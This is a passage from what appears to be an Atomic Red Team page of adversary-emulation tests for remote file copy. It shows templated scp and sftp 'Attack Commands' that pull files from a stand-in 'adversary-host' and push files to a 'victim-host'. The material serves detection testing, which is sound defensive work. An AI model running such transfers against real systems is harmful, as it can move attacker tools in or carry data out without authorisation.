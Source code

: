 ```bash
scp #{local_file} #{username}@#{remote_host}:#{remote_path}
```

<br/>
<br/>

## Atomic Test #4 - scp remote file copy (pull)

Utilize scp to perform a remote file copy (pull)

**Supported Platforms:** Linux, macOS

#### Inputs:

| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| remote_file | Path of file to copy | Path | /tmp/adversary-scp|
| username | User account to authenticate on remote host | String | adversary|
| remote_host | Remote host to copy from | String | adversary-host|
| local_path | Local path to receive scp | Path | /tmp/victim-files/|

#### Attack Commands: Run with `bash`!

```bash
scp #{username}@#{remote_host}:#{remote_file} #{local_path}
```

<br/>
<br/>

## Atomic Test #5 - sftp remote file copy (push)

Utilize sftp to perform a remote file copy (push)

**Supported Platforms:** Linux, macOS

#### Inputs:

| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| local_file | Path of file to copy | Path | /tmp/adversary-sftp|
| username | User account to authenticate on remote host | String | victim|
| remote_host | Remote host to copy toward | String | victim-host|
| remote_path | Remote path to receive sftp | Path | /tmp/victim-files/|

#### Attack Commands: Run with `bash`!

```bash
sftp #{username}@#{remote_host}:#{remote_path} <<< $'put #{local_file}'
```
